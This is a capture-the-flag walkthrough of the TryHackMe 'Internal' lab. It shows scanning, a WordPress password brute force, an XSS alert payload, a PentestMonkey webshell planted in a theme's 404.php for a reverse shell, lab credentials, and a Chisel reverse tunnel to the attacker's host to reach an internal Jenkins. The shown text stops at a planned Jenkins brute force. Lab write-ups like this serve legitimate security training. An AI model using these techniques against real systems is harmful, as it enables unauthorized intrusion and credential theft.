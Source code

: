 # Internal #
### Note: Having accepted the project, you are provided with the client assessment environment.  Secure the User and Root flags and submit them to the dashboard as proof of exploitation. ###

![alt text](/Hard/Internal/Images/image-1.png)

### https://tryhackme.com/r/room/internal ###

------------------------------------------------------------------------------------------

### RECON: ### 
+ Ensure that you modify your hosts file to reflect internal.thm

+ Scan the target machine with Nmap and Gobuster:

```bash
nmap -sV -vv -A -p- -T4 internal.thm
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzpZTvmUlaHPpKH8X2SHMndoS+GsVlbhABHJt4TN/nKUSYeFEHbNzutQnj+DrUEwNMauqaWCY7vNeYguQUXLx4LM5ukMEC8IuJo0rcuKNmlyYrgBlFws3q2956v8urY7/McCFf5IsItQxurCDyfyU/erO7fO02n2iT5k7Bw2UWf8FPvM9/jahisbkA9/FQKou3mbaSANb5nSrPc7p9FbqKs1vGpFopdUTI2dl4OQ3TkQWNXpvaFl0j1ilRynu5zLr6FetD5WWZXAuCNHNmcRo/aPdoX9JXaPKGCcVywqMM/Qy+gSiiIKvmavX6rYlnRFWEp25EifIPuHQ0s8hSXqx5
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMFOI/P6nqicmk78vSNs4l+vk2+BQ0mBxB1KlJJPCYueaUExTH4Cxkqkpo/zJfZ77MHHDL5nnzTW+TO6e4mDMEw=
|   256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMlxubXGh//FE3OqdyitiEwfA2nNdCtdgLfDQxFHPyY0
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

```bash
gobuster dir -u http://internal.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -xtxt,php,html -t64
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/blog                 (Status: 301) [Size: 311] [--> http://internal.thm/blog/]
/index.html           (Status: 200) [Size: 10918]
/.php                 (Status: 403) [Size: 277]
/wordpress            (Status: 301) [Size: 316] [--> http://internal.thm/wordpress/]
/javascript           (Status: 301) [Size: 317] [--> http://internal.thm/javascript/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://internal.thm/phpmyadmin/]
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

### WORDPRESS ###
+ First we use tool "Wpscan" to scan the website wordpress:

![alt text](/Hard/Internal/Images/image.png)

![alt text](/Hard/Internal/Images/image-2.png)

+ We've found the user "admin" and we continue to scan user:

```bash
wpscan --url http://internal.thm/wordpress/ -U admin -P /usr/share/wordlists/rockyou.txt
```

![alt text](/Hard/Internal/Images/image-3.png)

--> We could brute-force the credential user "admin". 
 + After brute-force successfully we had the credential Wordpress admin:my2boys

+ Login with "admin", we are in Dashboard. Now we go to look around all features to find what the vulnearability will appear.
+ We've found the Private Post in Posts and the credential of user William but we do not know where we can log in with this. 

![alt text](/Hard/Internal/Images/image-4.png)

--> The credential was leaked: william:arnold147

-----------------------------------------------------------------------------------------

### XSS ###
+ The vulnerability XSS appear in feature "Comments".
+ We will test common payload XSS first:

```bash
<script>alert('XSS')</script>
```

![alt text](/Hard/Internal/Images/image-6.png)

+ When we update comment and "View Post" so the website pop up the box alert:

![alt text](/Hard/Internal/Images/image-7.png)

+ Second XSS we've found that is feature "Posts".
+ We edit the title of post and save it. When we view the post, the pop up alert will appear.

![alt text](/Hard/Internal/Images/image-8.png)

![alt text](/Hard/Internal/Images/image-9.png)

+ Third XSS that is the feature "Pages".
+ We edit the title page and when we review it the pop up alert will appear again.

![alt text](/Hard/Internal/Images/image-10.png)

![alt text](/Hard/Internal/Images/image-11.png)

-----------------------------------------------------------------------------------------------------

### Exploit Themes to RCE ###

+ When we've checked in Site Health page, we've known that we had 2 themes was out of date:

```bash
### wp-active-theme ###

name: Twenty Seventeen (twentyseventeen)
version: 2.3
author: the WordPress team
author_website: https://wordpress.org/
parent_theme: none
theme_features: automatic-feed-links, title-tag, post-thumbnails, menus, html5, post-formats, custom-logo, customize-selective-refresh-widgets, editor-style, editor-styles, wp-block-styles, responsive-embeds, starter-content, custom-header, widgets
theme_path: /var/www/html/wordpress/wp-content/themes/twentyseventeen

### wp-themes-inactive (2) ###

Twenty Nineteen: version: 1.5, author: the WordPress team (latest version: 1.6)
Twenty Twenty: version: 1.2, author: the WordPress team (latest version: 1.4)

### wp-plugins-inactive (2) ###

Akismet Anti-Spam: version: 4.1.5, author: Automattic (latest version: 4.1.6)
Hello Dolly: version: 1.7.2, author: Matt Mullenweg

### wp-filesystem ###

wordpress: not writable
wp-content: not writable
uploads: not writable
plugins: not writable
themes: not writable
```
--> Researching we know that theme is out of date will have the potential vulnearability in file "404.php". We are able to edit PHP file to RCE.

+ Checking 2 themes is out of date, theme "Twenty Nineteen" can't be edited but theme "Twenty Twenty" can be edited.
+ First we will active the theme "Twenty Twenty" replace theme "Twenty Seventeen". After we will edit file 404.php to RCE.
+ We can choose the webshell.php of PentestMonkey.
+ Update file successfully, we access the URL "http://internal.thm/wordpress/wp-content/themes/twentytwenty/404.php" and open netcat to catch the opened PORT.

![alt text](image.png)

+ RCE successfully and now we have to find the information to login user "aubreanna".
+ After a period of searching, we've found the interesting file in /opt.

```bash
www-data@internal:/$ cd /opt
cd /opt
www-data@internal:/opt$ ls
ls
containerd
wp-save.txt
www-data@internal:/opt$ cat wp-save.txt
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
www-data@internal:/opt$ 
```

--> We've found the credential aubreanna:bubb13guM!@#123. We use it to login SSH.

![alt text](image-1.png)

-------------------------------------------------------------------------------------

### Tunnel Jenkins Server ###
+ After login successfully SSH user "aubreanna", we had the file name "jenkins.txt" and read it.

```bash
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```

+ We've found the server Jenkins is running but we can't access directly into the Jenkins so we will check it:

```bash
aubreanna@internal:~$ ss -tl
State     Recv-Q      Send-Q            Local Address:Port               Peer Address:Port     
LISTEN    0           128                   127.0.0.1:33299                   0.0.0.0:*        
LISTEN    0           128               127.0.0.53%lo:domain                  0.0.0.0:*        
LISTEN    0           128                     0.0.0.0:ssh                     0.0.0.0:*        
LISTEN    0           80                    127.0.0.1:mysql                   0.0.0.0:*        
LISTEN    0           128                   127.0.0.1:http-alt                0.0.0.0:*        
LISTEN    0           128                        [::]:ssh                        [::]:*        
LISTEN    0           128                           *:http                          *:*   
```

+ We've seen "127.0.0.1:http-alt" that is port 8080 also is port Jenkins server which is running.
+ Now we will use Tunnel to create the way accessing the Jenkins. We use tool "Chisel" to create the Tunnel.

```bash
zicco@z-a:/usr/bin$ chisel server -p 5555 --reverse
2024/11/16 15:34:08 server: Reverse tunnelling enabled
2024/11/16 15:34:08 server: Fingerprint qfX9SVjQY9DeTP/8LeaLgu29Us/gDcfEq3KOJQQCf5U=
2024/11/16 15:34:08 server: Listening on http://0.0.0.0:5555
2024/11/16 15:37:33 server: session#1: tun: proxy#R:8080=>8080: Listening
```

```bash
aubreanna@internal:~$ ./chisel client 10.11.101.46:5555 R:8080:127.0.0.1:8080 &
[1] 2080
aubreanna@internal:~$ 2024/11/16 08:37:32 client: Connecting to ws://10.11.101.46:5555
2024/11/16 08:37:34 client: Connected (Latency 304.454537ms)
```

![alt text](image-2.png)

+ Access successfully page Jenkins, we try the default credential admin:admin
--> But not success
+ We try to brute force the credential admin.
  

